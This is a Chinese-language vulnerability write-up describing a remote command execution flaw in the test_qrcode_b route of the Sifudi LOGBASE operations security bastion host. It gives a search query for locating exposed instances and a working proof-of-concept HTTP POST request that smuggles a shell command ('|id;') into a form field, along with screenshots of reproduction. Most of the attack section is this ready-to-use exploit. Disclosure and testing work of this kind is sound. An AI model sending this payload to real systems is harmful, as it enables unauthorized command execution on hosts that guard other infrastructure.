 # 思福迪 运维安全管理系统 test_qrcode_b 远程命令执行漏洞

## 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

## 漏洞影响

<a-checkbox checked>思福迪 运维安全管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="思福迪-LOGBASE"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697769918498-610b91ad-86c8-4323-a090-b7dd64e707fe-20231108132626595.png)

验证POC

```php
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

![img](../../../.vuepress/public/img/1697769963619-1628285d-0670-4734-b2ad-1ce0f63b9c4c.png)